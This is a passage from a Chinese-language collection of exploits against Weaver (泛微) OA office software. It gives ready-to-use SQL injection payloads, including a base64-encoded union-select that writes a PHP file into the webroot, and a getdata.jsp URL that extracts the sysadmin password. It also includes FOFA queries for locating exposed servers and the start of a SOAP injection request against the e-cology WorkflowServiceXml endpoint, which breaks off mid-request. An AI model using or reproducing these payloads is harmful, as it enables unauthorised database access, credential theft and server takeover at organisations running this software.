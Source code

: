   
构造EXP写入文件  
```
[group]:[1]|[groupid]:[1 union select '<?php phpinfo()?>',2,3,4,5,6,7,8 into outfile '../webroot/vulntest.php']
|
| base64
|
/inc/group_user_list/group_xml.php?par=W2dyb3VwXTpbMV18W2dyb3VwaWRdOlsxIHVuaW9uIHNlbGVjdCAnPD9waHAgcGhwaW5mbygpPz4nLDIsMyw0LDUsNiw3LDggaW50byBvdXRmaWxlICcuLi93ZWJyb290L3Z1bG50ZXN0LnBocCdd
```  
### 2.1.22泛微OA getdata.jsp SQL注入漏洞  
  
1.漏洞描述  
  
泛微OA V8 存在SQL注入漏洞，攻击者可以通过漏洞获取管理员权限和服务器权限  
  
2.漏洞影响  
  
泛微OA V8  
  
3.网络测绘  
  
app="泛微-协同办公OA"  
  
4.漏洞复现  
  
在getdata.jsp中，直接将request对象交给  
  
weaver.hrm.common.AjaxManager.getData(HttpServletRequest, ServletContext) :  
  
方法处理  
  
在getData方法中，判断请求里cmd参数是否为空，如果不为空，调用proc方法  
  
Proc方法4个参数，(“空字符串”,”cmd参数值”,request对象，serverContext对象)  
  
在proc方法中，对cmd参数值进行判断，当cmd值等于getSelectAllId时，再从请求中获取sql和type两个参数值，并将参数传递进getSelectAllIds（sql,type）方法中  
  
POC  
  
http://xxx.xxx.xxx.xxx/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager  
  
查询HrmResourceManager表中的password字段，页面中返回了数据库第一条记录的值（sysadmin用户的password）  
  
解密后即可登录系统  
### 2.1.23泛微OA-E-Cology接口WorkflowServiceXml存在SQL注入漏洞  
  
泛微OA E Cology 接口/services/WorkflowServiceXml 存在SQL注入漏洞，可获取数据库权限，导致数据泄露。  
- fofa  
app="泛微-OA（e-cology）"  
- poc  
```
POST /services/WorkflowServiceXml HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: text/xml
Accept-Encoding: gzip
Content-Length: 487

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://webservices.workflow.weaver"> <soapenv:Header/>
  <soapenv:Body>
      <web:getHendledWorkflowRequestList>
        <web:in0>1</web:in0>
        <web:in1>1</web:in1>
        <web:in2>1</web:in2>
        <web:in3>1</web:in3>
```